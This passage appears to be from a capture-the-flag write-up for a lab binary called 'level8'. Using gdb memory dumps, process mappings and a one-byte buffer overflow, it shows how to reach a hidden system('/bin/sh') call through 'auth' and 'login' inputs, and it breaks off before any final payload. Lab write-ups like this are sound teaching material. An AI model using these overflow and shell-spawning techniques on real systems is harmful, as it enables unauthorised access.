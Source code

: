       return 0;
    }
    ```
    
6. Ok, so first thing we noticed is that we have a `system("/bin/sh")` call, therefore, our intuition tell us to start by checking the required steps to access it.
The easy one is that we have to input `login`.
    
    ```bash
    > ./level8
    (nil), (nil) 
    login
    Segmentation fault (core dumped)
    ```
    
7. Now, we also need to find a way to set `*(auth + 8)`. To do so, multiple step are mandatory.
Since `auth` is not defined, we have to input `auth`  (do not forget the space at the end) to `malloc` it.
    
    ```bash
    > ./level8
    (nil), (nil) 
    auth 
    0x804a008, (nil) 
    ```
    
8. Great, let’s check the memory.
    
    ```bash
    > (gdb) x/16x $sp
    0xbffff690:	0x0804a008	0xbffff6b5	0xb7fd1ac0	0xb7fd0ff4
    0xbffff6a0:	0xbffff6ee	0xbffff6ef	0x00000001	0xffffffff
    0xbffff6b0:	0x68747561	0xbf000a20	0x00000000	0xb7ff3fec
    0xbffff6c0:	0xbffff774	0x00000000	0x00000000	0xb7e5ec73
    ```
    
9. As expected we have our `0x68747561 == 'auth'` and  `0x0a20 == ' \n'`.
An important thing to notice, is that our buffer has a size of `5` bytes, but we have input `6`, therefore the `0x0a == '\n'` is stored in `auth_cpy` (buffer overflow). Thus, this `\n` will be copied into `auth`.
    
    ```bash
    > (gdb) info proc mappings
    process 2848
    Mapped address spaces:
    
    Start Addr   End Addr       Size     Offset objfile
     0x8048000  0x8049000     0x1000        0x0 /home/user/level8/level8
     0x8049000  0x804a000     0x1000        0x0 /home/user/level8/level8
     0x804a000  0x806b000    0x21000        0x0 [heap]
    0xb7e2b000 0xb7e2c000     0x1000        0x0 
    0xb7e2c000 0xb7fcf000   0x1a3000        0x0 /lib/i386-linux-gnu/libc-2.15.so
    0xb7fcf000 0xb7fd1000     0x2000   0x1a3000 /lib/i386-linux-gnu/libc-2.15.so
    0xb7fd1000 0xb7fd2000     0x1000   0x1a5000 /lib/i386-linux-gnu/libc-2.15.so
    0xb7fd2000 0xb7fd5000     0x3000        0x0 
    0xb7fd9000 0xb7fdd000     0x4000        0x0 
    0xb7fdd000 0xb7fde000     0x1000        0x0 [vdso]
    0xb7fde000 0xb7ffe000    0x20000        0x0 /lib/i386-linux-gnu/ld-2.15.so
    0xb7ffe000 0xb7fff000     0x1000    0x1f000 /lib/i386-linux-gnu/ld-2.15.so
    0xb7fff000 0xb8000000     0x1000    0x20000 /lib/i386-linux-gnu/ld-2.15.so
    0xbffdf000 0xc0000000    0x21000        0x0 [stack]
    